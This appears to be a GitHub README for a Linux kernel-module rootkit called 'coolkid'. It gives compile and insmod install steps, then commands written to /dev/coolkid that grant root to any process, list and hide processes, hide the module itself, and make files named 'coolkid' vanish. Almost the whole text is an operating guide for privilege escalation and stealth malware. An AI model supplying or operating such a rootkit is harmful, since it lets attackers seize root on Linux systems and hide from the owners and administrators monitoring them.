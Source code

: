 # coolkid rootkit
## compilation
make
 
## install
sudo insmod coolkid.ko

## usage
Linux version > 4.17, otherwise it will fail

`echo -n "1000000000 $PID" > /dev/coolkid`  will give root permissions to the process

`echo -n "1000000001" > /dev/coolkid` then `cat /dev/coolkid` will list you all the processes running

`echo -n "1000000002" > /dev/coolkid` then `cat /dev/coolkid` will gives you the pids of invisible processes 

`echo -n "1000000003 $PID" > /dev/coolkid` will hide/unhide the process

`echo -n "1000000004" > /dev/coolkid` will hide the module

by default every file/repo starting by coolkid will disapear on the system
